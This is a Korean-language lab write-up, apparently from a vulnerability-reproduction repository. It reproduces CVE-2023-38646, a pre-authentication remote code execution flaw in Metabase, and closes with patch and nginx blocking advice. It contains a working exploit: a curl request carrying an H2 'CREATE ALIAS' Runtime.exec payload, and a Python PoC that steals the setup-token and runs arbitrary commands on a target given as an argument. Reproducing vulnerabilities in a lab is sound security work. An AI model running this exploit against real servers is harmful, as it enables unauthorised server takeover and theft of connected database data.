


# CVE-2023-38646 — Metabase 인증 전 원격 코드 실행 (Pre-Auth RCE)

> **Contributor:** [@yesol](https://github.com/yesol)
> **Risk Score:** 9.8
> **Reproducibility:** 90%

---

## 취약점 요약

| 항목 | 내용 |
|---|---|
| CVE 번호 | CVE-2023-38646 |
| 영향 소프트웨어 | Metabase 오픈소스 < 0.46.6.1, Enterprise < 1.46.6.1 |
| 취약점 유형 | 인증 전 원격 코드 실행 (Pre-Auth RCE) |
| CVSS v3.1 점수 | 9.8 (Critical) |
| 인증 필요 여부 | 불필요 (Unauthenticated) |
| 원격 악용 가능 여부 | 가능 |
| 공식 패치 버전 | Metabase 0.46.6.1 / 1.46.6.1 |

Metabase는 기업에서 DB를 연결해 데이터를 분석·시각화하는 BI(Business Intelligence) 툴이다. `/api/setup/validate` 엔드포인트는 초기 설정 과정에서 DB 연결을 검증하는 API인데, **인증 없이 접근 가능**하며 악성 H2 JDBC 연결 문자열을 주입하면 서버에서 임의 명령어를 실행할 수 있다.

공격자는 `/api/session/properties`에서 `setup-token`을 탈취한 뒤, 해당 토큰과 함께 악성 페이로드를 `/api/setup/validate`로 전송해 **개인정보·기업 데이터가 담긴 DB 서버를 완전히 장악**할 수 있다.

---

## 환경 구성

### 요구 사항

- Docker Desktop (v4.0 이상)
- Docker Compose v2
- Python 3.x
- 인터넷 연결 (이미지 다운로드)

### 디렉터리 구조

```
Metabase/CVE-2023-38646/
├── docker-compose.yml
├── poc.py
└── README.md
```

### docker-compose.yml

```yaml
services:
  metabase:
    image: metabase/metabase:v0.46.6
    ports:
      - "3000:3000"
    container_name: cve-2023-38646-metabase
    environment:
      - MB_DB_TYPE=h2
      - MB_DB_FILE=/metabase-data/metabase.db
    volumes:
      - metabase-data:/metabase-data

volumes:
  metabase-data:
```

---

## 취약 조건

다음 조건이 **모두** 충족되어야 취약점이 발현된다.

1. Metabase 버전이 **0.46.6.1 미만** (오픈소스) 또는 **1.46.6.1 미만** (Enterprise)일 것
2. Metabase 인스턴스가 **초기 설정(setup) 완료 이후**에도 `setup-token`이 노출되어 있을 것
3. `/api/setup/validate` 엔드포인트가 외부에서 접근 가능할 것

---

## 재현 절차

### 1단계: 환경 실행

```bash
git clone https://github.com/gunh0/kr-vulhub.git
cd kr-vulhub/Metabase/CVE-2023-38646
docker compose up -d
```

Metabase 초기화가 완료될 때까지 기다린다 (약 2~3분).

```bash
docker logs -f cve-2023-38646-metabase
```

로그에 `Metabase Initialization COMPLETE`가 나오면 준비 완료다.

브라우저에서 `http://localhost:3000` 접속 시 Metabase 환영 화면이 나오면 정상이다.


### 2단계: setup-token 탈취

`/api/session/properties` 엔드포인트는 인증 없이 접근 가능하며, 응답에 `setup-token`이 포함되어 있다.

```bash
curl -s http://localhost:3000/api/session/properties | python3 -c "import sys,json; d=json.load(sys.stdin); print('setup-token:', d.get('setup-token'))"
```


### 3단계: JDK 설치 (RCE 필수 조건)

H2 데이터베이스의 ALIAS 방식 RCE를 위해 컨테이너 안에 JDK가 필요하다.

```bash
docker exec -it cve-2023-38646-metabase apk add --no-cache openjdk11-jdk
```

설치 확인:

```bash
docker exec -it cve-2023-38646-metabase javac -version
```

`javac 11.x.x` 가 출력되면 준비 완료다.

### 4단계: RCE 페이로드 전송

탈취한 토큰을 이용해 `/api/setup/validate`에 악성 H2 JDBC `init` 스크립트를 주입한다.

```bash
curl -s http://localhost:3000/api/setup/validate \
  -H "Content-Type: application/json" \
  -d '{
  "token": "<탈취한_토큰>",
  "details": {
    "is_on_demand": false,
    "is_full_sync": false,
    "is_sample": false,
    "cache_ttl": null,
    "refingerprint": false,
    "auto_run_queries": true,
    "schedules": {},
    "details": {
      "db": "file:/plugins/sample-database.db",
      "advanced-options": true,
      "ssl": true,
      "init": "CREATE ALIAS EXEC AS $$ String shellexec(String cmd) throws Exception {String[] c = new String[]{\"sh\",\"-c\",cmd};Process p = Runtime.getRuntime().exec(c);p.waitFor();java.util.Scanner s = new java.util.Scanner(p.getInputStream()).useDelimiter(\"\\\\A\");return s.hasNext()?s.next():\"\";} $$;CALL EXEC('"'"'id > /tmp/pwned'"'"')"
    },
    "name": "test",
    "engine": "h2"
  }
}'
```

---

## PoC 코드

```python
#!/usr/bin/env python3
"""
CVE-2023-38646 PoC — Metabase Pre-Auth RCE
대상: Metabase < 0.46.6.1 (오픈소스), < 1.46.6.1 (Enterprise)
공격 흐름:
  1. /api/session/properties 에서 setup-token 탈취 (인증 불필요)
  2. /api/setup/validate 에 악성 H2 JDBC init 스크립트 주입
  3. 서버에서 임의 명령어 실행 (RCE)
"""

import urllib.request
import urllib.error
import json
import sys

TARGET = "http://localhost:3000"
COMMAND = "id"

def get_setup_token(base_url):
    """1단계: setup-token 탈취"""
    url = f"{base_url}/api/session/properties"
    print(f"[*] setup-token 탈취 시도: {url}")
    try:
        resp = urllib.request.urlopen(url)
        data = json.loads(resp.read())
        token = data.get("setup-token")
        if token:
            print(f"[+] setup-token 탈취 성공: {token}")
            return token
        else:
            print("[-] setup-token이 없습니다. 이미 패치된 버전이거나 설정이 완료된 인스턴스입니다.")
            return None
    except Exception as e:
        print(f"[-] 오류: {e}")
        return None

def exploit(base_url, token, command):
    """2단계: RCE 실행"""
    url = f"{base_url}/api/setup/validate"
    print(f"[*] RCE 페이로드 전송: {url}")
    print(f"[*] 실행 명령어: {command}")

    output_file = "/tmp/pwned_output"
    alias_name = "PWNED_EXEC"

    payload = {
        "token": token,
        "details": {
            "is_on_demand": False,
            "is_full_sync": False,
            "is_sample": False,
            "cache_ttl": None,
            "refingerprint": False,
            "auto_run_queries": True,
            "schedules": {},
            "details": {
                "db": "file:/plugins/sample-database.db",
                "advanced-options": True,
                "ssl": True,
                "init": (
                    f"CREATE ALIAS {alias_name} AS $$ "
                    f"String shellexec(String cmd) throws Exception {{"
                    f"String[] c = new String[]{{\"sh\",\"-c\",cmd}};"
                    f"Process p = Runtime.getRuntime().exec(c);"
                    f"p.waitFor();"
                    f"java.util.Scanner s = new java.util.Scanner(p.getInputStream()).useDelimiter(\"\\\\A\");"
                    f"return s.hasNext()?s.next():\"\";"
                    f"}} $$;"
                    f"CALL {alias_name}('{command} > {output_file}')"
                )
            },
            "name": "test",
            "engine": "h2"
        }
    }

    data = json.dumps(payload).encode("utf-8")
    req = urllib.request.Request(
        url,
        data=data,
        headers={"Content-Type": "application/json", "Connection": "close"},
        method="POST"
    )

    try:
        with urllib.request.urlopen(req) as resp:
            print(f"[+] 요청 성공 (HTTP {resp.status})")
    except urllib.error.HTTPError as e:
        body = e.read().decode()
        if "read only" in body or "already exists" in body or "90043" in body:
            print(f"[+] 페이로드 실행됨 (HTTP {e.code})")
        else:
            print(f"[-] HTTP 에러 {e.code}: {body}")
            return

    print(f"[*] 결과 확인: docker exec cve-2023-38646-metabase cat {output_file}")

if __name__ == "__main__":
    target = sys.argv[1] if len(sys.argv) > 1 else TARGET
    command = sys.argv[2] if len(sys.argv) > 2 else COMMAND

    print("=" * 60)
    print("CVE-2023-38646 Metabase Pre-Auth RCE PoC")
    print("=" * 60)

    token = get_setup_token(target)
    if token:
        exploit(target, token, command)
```

실행 방법:

```bash
python3 poc.py
# 또는 대상/명령어 지정
python3 poc.py http://localhost:3000 "id"
```

---

## 실행 결과

### setup-token 탈취

인증 없이 `/api/session/properties`에서 setup-token을 획득한다.


### RCE 성공 — id 명령어 실행

`uid=2000(metabase)` — Metabase 서버 권한으로 명령어가 실행됐다.



### /etc/passwd 탈취

서버 내 사용자 정보 전체가 노출됐다.



---

## 취약점 원리 상세

### 공격 체인

```
1단계: GET /api/session/properties
        → setup-token 탈취 (인증 불필요)
              ↓
2단계: POST /api/setup/validate
        → 악성 H2 JDBC init 스크립트 주입
              ↓
3단계: H2 DB ALIAS 함수로 Java Runtime.exec() 호출
        → 서버에서 임의 명령어 실행 (RCE)
```

### 핵심 취약점

Metabase의 DB 연결 검증 API(`/api/setup/validate`)가 인증 없이 접근 가능하고, H2 데이터베이스의 `INIT` 파라미터를 통해 임의 SQL/Java 코드를 실행할 수 있다.

H2 DB는 JDBC 연결 URL의 `INIT` 스크립트에서 `CREATE ALIAS`로 Java 메서드를 정의하고 실행할 수 있는데, Metabase가 이 연결 문자열을 검증 없이 H2 엔진에 전달한다.

### 실제 피해 시나리오

Metabase는 기업 DB(MySQL, PostgreSQL, MongoDB 등)에 연결해 데이터를 분석하는 툴이다. 공격자가 RCE를 통해 Metabase 서버를 장악하면:

- Metabase에 연결된 **모든 DB의 개인정보·기업 기밀 데이터 탈취**
- DB 자격증명(비밀번호) 탈취
- 서버 내 파일 시스템 접근
- 추가 내부 네트워크 침투 (Lateral Movement)

---

## 대응 방안

### 즉시 조치 (패치)

Metabase를 최신 버전으로 업그레이드한다.

- 오픈소스: **0.46.6.1 이상**
- Enterprise: **1.46.6.1 이상**

### 네트워크 수준 차단

패치가 불가능한 경우 `/api/setup` 엔드포인트에 대한 외부 접근을 방화벽/WAF에서 차단한다.

```nginx
# Nginx 예시
location /api/setup {
    deny all;
}
```

### 접근 제어

Metabase 관리 페이지를 내부 네트워크에서만 접근 가능하도록 제한한다.

---

## 참고 자료

- [NVD - CVE-2023-38646](https://nvd.nist.gov/vuln/detail/CVE-2023-38646)
- [Assetnote 원본 연구](https://www.assetnote.io/resources/research/chaining-our-way-to-pre-auth-rce-in-metabase-cve-2023-38646)
- [Metabase 공식 보안 권고](https://www.metabase.com/blog/security-advisory)
